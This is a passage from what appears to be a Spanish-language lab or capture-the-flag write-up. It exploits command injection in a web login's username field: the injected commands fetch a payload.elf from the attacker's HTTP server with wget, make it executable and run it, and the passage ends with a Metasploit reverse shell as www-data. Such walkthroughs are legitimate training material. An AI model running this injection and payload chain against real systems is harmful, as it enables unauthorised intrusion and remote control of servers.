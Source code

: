 Una vez estando a la escucha en otra pestaña, vamos a pasarnos nuestro `payload` al servidor victima mediante `python`...

```shell
python3 -m http.server
```

```shell
curl -X POST 'http://<VICTIM_IP>:5000/?username=wget%20-P%20/tmp/%20http%3A//<YOUR_IP>%3A8000/payload.elf&password=test'
```

Lo enviamos al directorio `/tmp`...

```shell
curl -X POST 'http://<IP>:5000/?username=ls%20-la%20/tmp&password=test'
```

Info:

```
total 44
drwxrwxrwt 10 root     root     4096 Jun  3 00:38 .
drwxr-xr-x 23 root     root     4096 Dec 21  2019 ..
drwxrwxrwt  2 root     root     4096 Jun  2 20:06 .font-unix
drwxrwxrwt  2 root     root     4096 Jun  2 20:06 .ICE-unix
-rw-r--r--  1 www-data www-data  152 Jun  3 00:29 payload.elf
drwx------  3 root     root     4096 Jun  2 20:06 systemd-private-20399c7c7bf14ecbae4fbc795198fa4a-systemd-resolved.service-uPLypV
drwx------  3 root     root     4096 Jun  2 20:06 systemd-private-20399c7c7bf14ecbae4fbc795198fa4a-systemd-timesyncd.service-1BIRZa
drwxrwxrwt  2 root     root     4096 Jun  2 20:06 .Test-unix
drwx------  2 root     root     4096 Jun  2 23:47 vmware-root
drwxrwxrwt  2 root     root     4096 Jun  2 20:06 .X11-unix
drwxrwxrwt  2 root     root     4096 Jun  2 20:06 .XIM-unix
```

Como veremos se paso todo perfectamente, ahora haremos lo siguiente para ejecutarlo...

```shell
curl -X POST 'http://<IP>:5000/?username=chmod%20%2Bx%20/tmp/payload.elf&password=test'
```

Le añadimos permisos de ejecucion y ahora lo ejecutamos...

```shell
curl -X POST 'http://<IP>:5000/?username=/tmp/payload.elf&password=test'
```

Una vez hecho eso si nos volvemos a nuestro `metasploit` habremos hecho conexion...

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.5.162:443 
[*] Command shell session 1 opened (192.168.5.162:443 -> 192.168.5.163:46830) at 2024-06-02 15:19:27 -0400

whoami
www-data
```
